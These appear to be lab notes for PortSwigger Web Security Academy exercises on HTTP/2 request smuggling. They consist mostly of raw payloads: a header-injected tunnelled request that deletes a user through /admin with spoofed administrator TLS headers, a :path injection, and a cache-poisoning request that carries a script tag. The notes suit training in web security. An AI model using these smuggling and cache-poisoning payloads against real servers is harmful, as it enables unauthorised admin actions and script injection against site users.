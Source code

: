 **admin payload:**
```
name:
foo:bar

GET /admin/delete?username=carlos HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 3391277118436530

value:
xuy
```

**delete carlos:**
```
name:
foo:bar

GET /admin/delete?username=carlos HTTP/1.1
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 3391277118436530

value:
xuy
```

# 2. Lab: Web cache poisoning via HTTP/2 request tunnelling
https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling
```
name: :path
value: / HTTP/1.1
Host: acbf1fef1e4fed6ec0bf6ef7000b006a.web-security-academy.net
```

```
GET /resources?<script>alert(1)</script>foobar1234567890foobar1234567890...{X570 times}...1234567890foobar1234567890 HTTP/1.1
Foo: bar
```

# **HTTP/2-exclusive vectors**
https://portswigger.net/web-security/request-smuggling/advanced/http2-exclusive-vectors


# 1. Lab: CL.0 request smuggling
https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling

To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at /admin, then delete the user carlos
